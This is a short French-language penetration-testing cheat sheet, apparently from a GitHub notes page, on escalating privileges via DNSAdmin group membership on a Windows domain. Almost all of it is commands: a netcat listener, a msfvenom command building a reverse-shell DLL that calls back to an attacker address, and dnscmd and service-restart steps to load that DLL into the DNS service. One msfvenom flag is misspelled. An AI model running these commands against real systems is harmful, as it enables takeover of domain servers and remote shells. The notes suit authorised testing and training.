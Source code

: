 ## DLL Hijacking 

L'attaque est possible si un utilisateur du Domain fait partie du groupe `DNSAdmin`

```sh
rlwrap nc -nlvp 4444
```

- Créer le payload DLL avec msfvenom et lancer un écouteur

```sh
msfvenom --platforme windows -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=10.10.x.x -f dll -o evil.dll
```

- Se connecter au compte d'utilisateur et transféré la DLL

- Injecter la dll dans le processus système et obenir un shell

```sh
dnscmd /config /serverlevelplugindll C:\Temp\evil.dll

sc stop dns
sc start dns
```
